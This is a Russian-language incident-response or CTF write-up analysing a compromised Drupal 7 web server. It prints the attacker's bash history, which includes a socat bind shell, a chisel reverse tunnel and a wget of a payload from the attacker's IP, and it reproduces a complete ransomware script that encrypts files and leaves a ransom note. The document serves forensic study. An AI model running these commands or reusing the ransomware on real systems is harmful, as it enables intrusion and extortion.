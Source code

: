 Сначала нужно было посмотреть логи Apache2, так что выполняем **tail -100 /var/log/apache2/access.log**
Видим запросы от клиента **10.20.200.50**, после их рассмотрения понимаем, что этот клиент является злоумышленником (запросы похожи на запросы от сканера уязвимостей, в последствии Suricata IDS нам покажет, что был использован сканер веб-серверов Nikto)

Цепочка действий злоумышленника получение www-data(shell.php) --> получение root(sploit.c) --> шифрование файлов(encr.sh) --> закрепление с помощью socat

Доказательство:

В истории команд (/root/.bash_history) можем заметить интересные строчки:
```bash
setsid /var/www/html/socat tcp-l:8081,reuseaddr,fork exec:/bin/bash,pty,setsid,setpgid,stderr,ctty&&exit
id;echo 0 > /proc/sys/vm/dirty_writeback_centisecs;exit
setsid /var/www/html/chisel client 10.20.200.50:8083 R:socks 2>1 > /dev/null && exit
cd /var/www/html/
rm sploit* socat chisel shell.php 
pkill -f socat
pkill -f chisel
setsid /var/www/html/socat tcp-l:8081,reuseaddr,fork exec:/bin/bash,pty,setsid,setpgid,stderr,ctty&&exit
id;echo 0 > /proc/sys/vm/dirty_writeback_centisecs;exit
setsid /var/www/html/chisel client 10.20.200.50:8083 R:socks 2>1 > /dev/null && exit
wget http://10.20.200.50/encr.sh -O /var/www/html/encr.sh;exit
chmod -R 777 /var/www/html;exit
/var/www/html/encr.sh;exit
rm -f /var/www/html/shell.php;exit
rm -f /var/www/html/encr.sh;exit
rm -f /var/www/html/sploit.c;exit
pkill -f socat
```

В директории /var/www/html/ (корневой директории веб-сервиса с уязвимым Drupal 7) мы обнаруживаем, что все файлы .php + flag оказались зашифрованы.

## Расшифровка файлов
Рассмотрим поближе файл **encr.sh**
Содержимое файла:
```bash
#!/bin/bash
iv=`cat /dev/urandom | tr -cd 'A-F0-9' | head -c 32`
pass=`cat /dev/urandom | tr -cd 'A-F0-9' | head -c 10`
dirwalk=/var/www/html
files=`find $dirwalk -maxdepth 1 -type f | grep -P ".php$|FLAG.txt$"`
for f in $files
do
    outfile=$f.encr
    openssl enc -aes-256-cbc -a -salt -in $f -out $outfile -pass pass:$pass -iv $iv
    rm $f
done
        echo "Oh! Hello there! You've been infected by GachiRansom, send 300$ to paypal:b.harrington@gmail.com to get your unecnryption key." | wall
        echo "Oh! Hello there! You've been infected by GachiRansom, send 300$ to paypal:b.harrington@gmail.com to get your unecnryption key." > /etc/motd

exit 0
```
